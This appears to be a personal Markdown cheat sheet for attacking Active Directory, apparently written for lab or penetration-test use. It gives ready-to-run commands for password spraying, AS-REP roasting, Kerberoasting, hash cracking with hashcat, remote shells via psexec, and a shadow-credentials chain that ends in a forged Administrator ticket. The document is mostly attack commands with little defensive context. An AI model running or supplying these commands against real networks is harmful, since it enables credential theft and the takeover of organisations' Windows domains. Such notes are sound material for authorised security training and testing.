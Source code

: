 ### Active Directory

### From Linux

#### AD Strategy
1. Start with nmap, to idenftiy the network.
2. Assume Breach strategy
3.    1. Get user, groups, computers

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and **88 (KDC)**, 389, 636 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

#### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

#### How to Generate username combinations ?
1. Use https://github.com/urbanadventurer/username-anarchy

#### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

#### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
2. Command: `./kerbrute_linux_amd64 -d internal.abc.local passwordspray allUsers.txt 'Password100!' --dc 192.168.210.16'`
   
##### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

##### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

##### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

##### What to do if you have got valid user/password credentials --- after as-rep/kerb roasting ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

##### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

##### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
2. The above command would you give you shell. 

#### After shell, use SYSINTERNALS AD Explorer  / Bloodhound
1. Remote Blooudhound from Kali, command: `proxychains bloodhound-python --zip -c all -d somedomain.local -u marcus -p 'Password100!' --dns-tcp -ns <DC IP address>`

#### Useful commands - Assume Breach Appraoch - You're inside the DC network with valid user/pass combination
1. **Local vs Domain** - This command tells all the users present in the current system. Command: `net user` or `net user <username>`
3. **Local vs Domain** - This command tells all the users present in all the DC. Command: `net user /domain` or `net user <username>  /domain `

#### AD Abuse - AddKeyCredentialLink [pywhisker.py -> gettgtpkinit.py - > getnthash.py -> impacket-lookupsid -> impacket-ticketer -> finally psexec / secretsdump)
1. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "list"`
2. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "add" --filename hacker`
3. `proxychains python3 gettgtpkinit.py -cert-pfx "hacker.pfx" -pfx-pass "VSDR4fkJazANDrGfis03" "somedomain.local/COMP-ABC-1\$" out.cache`
4. `proxychains python3 getnthash.py somedomain.local/COMP-ABC-1\$ -key bc39f3e57c5550412fbedd1430c3919f1f25f0a67117517242422029241d1c85`
5. `proxychains impacket-lookupsid somedomain.local/username@192.168.210.10(DC) | grep "Domain SID"`
6. `proxychains impacket-ticketer -nthash 89d0b56874f61ad38bad336a77b8ef2f -domain somedomain.local -domain-sid S-1-5-21-2734290894-461713716-141835440 Administrator -dc-ip 192.168.210.10(DC)`
7. `export KRB5CCNAME=Administrator.ccache`
8. `klist`
9. `impacket-psexec somedomain.local/Administrator@192.168.210.10 -target-ip 192.168.210.11(ADComputer) -dc-ip 192.168.210.10(DC) -no-pass -k`


### From Windows

#### PrivEsc in Windows
1. Vulnerablities in installed software our outdated OS or missing patches.
2. AutoLogON Passwords in Cleartext.
3. AlwaysInstallElevated.
4. Misconfigured Services. (Unquoted path etc.) 
5. DLL Hijacking.
6. NTLM relaying.
7. Local services running (chisel).
8. Tools: PowerUP + PrivESC + WinPEAS

#### Enumeration after importing Powerview
1. Get-NetDomain
2. Get-DomainComputer | select samaccountname,operatingsystem #find OS details
3. Get-NetDomainController
4. Get-NetUser
5. Get-NetGroupMember -Identity "Enterprise Admins" -Domain  moneycorp.local #Find enterprise admin, which is accessible on root only
   
#### Enumeration after importing Powerup
1. Invoke-Allchecks
